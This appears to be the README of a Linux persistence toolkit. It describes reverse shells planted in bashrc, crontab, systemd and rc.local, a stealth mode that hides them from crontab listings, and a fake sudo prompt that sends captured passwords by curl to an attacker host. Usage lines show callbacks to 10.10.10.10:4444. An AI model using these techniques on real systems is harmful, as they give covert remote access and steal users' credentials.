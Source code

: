 # linper

linux persistence toolkit - enumerate, install, or remove persistence mechanisms

## files

- README.md - or not
- TODO.md - planned fixes & enhancements
- linper.sh - execute me
- powershell/ - placeholder for the eventual winper

## features

- enumerate programs that can be used to execute a reverse shells and ways to make the persist a reboot
- automatically install reverse shells with all the required syntax, redirection, and pipes to minimize printing errors to screen or interrupting normal functions and processes
- supply custom crontab schedules for reverse shells
- look through /etc/shadow for non-system accounts
- support for a stealth mode and the ability to clean up after itself
- place a function in ~/.bashrc to intercept and exfil sudo passwords

## credit

huge shoutout to the maintainers and contributers of [GTFOBins](https://gtfobins.github.io/) as their great resource laid the groundwork for much of this tool

also, thanks to Null Byte and [this article](https://null-byte.wonderhowto.com/how-to/steal-ubuntu-macos-sudo-passwords-without-any-cracking-0194190/) for the idea and some of the code behind the _Sudo Hijack Attack_ as implemented in this tool 

## usage

### enumerating binaries for persistence

`bash linper.sh --dryrun`

`bash linper.sh -d`

### installing reverse shells

`bash linper.sh --rhost 10.10.10.10 --rport 4444`

`bash linper.sh -i 10.10.10.10 -p 4444`

#### stealth mode

`bash linper.sh --rhost 10.10.10.10 --rport 4444 --stealth-mode`

`bash linper.sh -i 10.10.10.10 -p 4444 -s`

### remove reverse shells to a given RHOST

`bash linper.sh --rhost 10.10.10.10 --clean`

`bash linper.sh -i 10.10.10.10 -c`

#### caveat

- This functionality is designed to remove reverse shells installed using this tool however since this tool uses common/well-known techniques, it may also be used to remove unwanted reverse shells if you know the C2 domain/IP

## methodology

### installing

1. Enumerating methods and doors - the script enumerates binaries that can be used for executing a reverse shell (methods, e.g. bash), and then for each of those, it enumerates ways to make them persist (doors, e.g. crontab). If dryrun is not set, every possible method and door pair is installed <b>(the doors, and how often they execute, are explained in greater detail below)</b>

2. Sudo hijack attack - Enumerates whether or not the current user can sudo, if so, and if dryrun not set, it installs a function in their bashrc to "hijack" that binary

3. Web Server Poison Attack - Enumerates whether or not the webserver's directories are writable (this feature will be expanded, see TODO.md)

4. Shadow file enumeration - Enumerates whether or not the shadow file is readable, if dryrun is not set then it will grep for non-system accounts

#### stealth mode

`-s, --stealth-mode various trivial modifications to the install function in an attempt to hide the backdoors from humans`

1. Makes the files related to installing services hidden by prepending a "."

2. Disables the ability to append methods to the bashrc - because if a connection fails it is noisy and prints to the screen

3. Creates a `crontab` function in \~/.bashrc to override the `-r` and `-l` flags. `-r` is changed to remove all crontab entries <u>except</u> your reverse shells. `-l` is changed to list all the existing cron jobs <u>except</u> your reverse shells

##### caveat

If you run `-s, --stealth-mode` as a sudo enabled user, be aware that you can bypass the `crontab` function installed in \~/.bashrc because aliases are not preserved when running `sudo`, nor does `sudo` call the `root` user aliases. (This does not interfere with the sudo hijack attack)

### cleaning

1. To remove shells from the bashrc (current user's and /etc/skel), it simply greps out any lines with the given RHOST and creates a temp file which is then used to replace the respective file

2. To remove shells from crontab, it attempts to grep out any lines with the given RHOST from `crontab -l`, then greps for any remaining `[a-zA-Z0-9]` characters and pipes that to crontab. If the install fails, it assumes there are no other cron jobs so it runs `crontab -r`

3. To remove reverse shells from systemctl service files, it looks for the any file with the given RHOST in it and then looks for the name of said file in any other file and removes both

4. To remove shells from /etc/rc.local, it simply greps out any reference to the given RHOST and if the remaining file is two lines long it assumes there was nothing else to execute in rc.local so it removes the file (it checks for two lines because, at minimum, it must start with `!#/bin/sh -e` and end with `exit 0`)

5. To remove the `crontab` function installed by `-s, --stealt-mode`, it looks for the provided RHOST in ~/.bashrc and the string "function crontab". If both return true then it uses sed amd grep to remove the function itself, writes to a temp file, and then replaces ~/.bashrc with the temp file 

## execution frequency

this will explain how often different programs installed by the tool will execute

### doors

how often a reverse shell installed using each door will callback

- bashrc, every time bash initializes for the user it was installed with (e.g. interactive shell, or running "/bin/bash") 
- crontab, every minute (this can be changed by altering the $CRON variable at the top of the script) (see TODO.md)
- systemctl, at system startup
- /etc/rc.local, at system startup
- /etc/skel/.bashrc, after a new user is created, and then any time that user initializes bash

### sudo hijack attack

how often the `sudo` alias will attempt to exfil passwords

- every time `sudo` is executed by the account linper was ran as
- make sure to have a web server running on port 443 on the IP you provided as the `-i, --rhost`

#### how it works

1. when linper is executed it puts a `sudo` function in the bashrc of the current user

after it is installed and once `sudo` is executed, the alias will:

2. takes note of where the actual `sudo` program is located on the system
3. determines where to create a file to store exfiltrated passwords
4. creates a fake `sudo` prompt and stores the input (password) as a variable
5. puts the contents of the variable in the file from step 3
6. sorts and deduplicates aforementioned file
7. base64 encodes the contents of the file and stores it as a variable
8. uses `curl` to exfiltrate the base64 as a GET parameter to https://$RHOST/
9. runs `exit` with the actual `sudo` program to start the sudo session timer
10. runs the supplied input of the original `sudo` command (not the password, but the program and arguments) with the actual `sudo` binary 

